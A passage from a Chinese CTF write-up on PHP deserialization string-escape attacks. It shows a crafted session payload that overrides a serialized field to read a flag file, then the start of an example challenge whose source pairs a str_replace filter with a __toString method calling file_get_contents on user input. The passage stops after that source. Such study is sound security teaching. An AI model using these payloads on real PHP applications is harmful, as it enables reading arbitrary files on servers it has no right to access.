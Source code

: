 开始注入：

[![2R2wDO.png](https://z3.ax1x.com/2021/06/10/2R2wDO.png)](https://imgtu.com/i/2R2wDO)

得到 **flag in /d0g3_fllllllag**。

将 ``/d0g3_fllllllag`` base64加密，发现恰好也是20位，直接替换原来的 ``Z3Vlc3RfaW1nLnBuZw==`` 即可：

[![2R2hqS.png](https://z3.ax1x.com/2021/06/10/2R2hqS.png)](https://imgtu.com/i/2R2hqS)

+ 值逃逸  ????

这里需要两个连续的键值对，由第一个的值覆盖第二个的键，这样第二个值就逃逸出去，单独作为一个键值对：

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image
```

经过 filter 过滤后序列化 var_dump 的结果为：

```
"a:3{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

开始注入：
[![2R4Jcn.png](https://z3.ax1x.com/2021/06/10/2R4Jcn.png)](https://imgtu.com/i/2R4Jcn)

[![2R4wAU.png](https://z3.ax1x.com/2021/06/10/2R4wAU.png)](https://imgtu.com/i/2R4wAU)

### 例题—安H四月

```
 <?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}
 
function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}
 
class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}
 
class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}
 
class C{
    public $c;
    function __toString(){
        echo file_get_contents($this->c);
        return 'nice';
    }
}
 
$a = new A($_GET['a'],$_GET['b']);
```
